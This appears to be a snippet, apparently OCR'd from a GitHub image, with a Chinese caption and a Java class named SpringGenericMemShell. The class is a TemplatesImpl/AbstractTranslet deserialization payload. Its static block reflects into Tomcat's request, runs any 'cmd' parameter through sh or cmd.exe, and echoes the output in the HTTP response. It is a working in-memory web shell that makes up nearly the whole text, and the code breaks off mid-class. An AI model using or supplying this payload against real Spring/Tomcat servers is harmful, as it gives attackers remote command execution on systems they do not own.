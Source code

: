 spring环境下直接向request写回显的TemplatesImpl字节码code：

```java
package cn.org.javaweb.springmemshell.Generic;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;

import javax.servlet.http.HttpServletRequest;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

public class SpringGenericMemShell extends AbstractTranslet {
    static{
        try{
            HttpServletRequest servletRequest =  ((ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest();
            Field requestfield = RequestFacade.class.getDeclaredField("request");
            requestfield.setAccessible(true);
            Request request = (Request) requestfield.get(servletRequest);
            String cmd = request.getParameter("cmd") != null
                    ? request.getParameter("cmd")
                    : null;//获取cmd参数的值
            if (cmd != null) {//回显内容
                Response response = request.getResponse();
                java.io.Writer w = response.getWriter();
                Field usingWriter = Response.class.getDeclaredField("usingWriter");
                usingWriter.setAccessible(true);
                usingWriter.set(response, Boolean.FALSE);

                boolean isLinux = true;//执行命令
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                w.write(output);
                w.flush();
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
```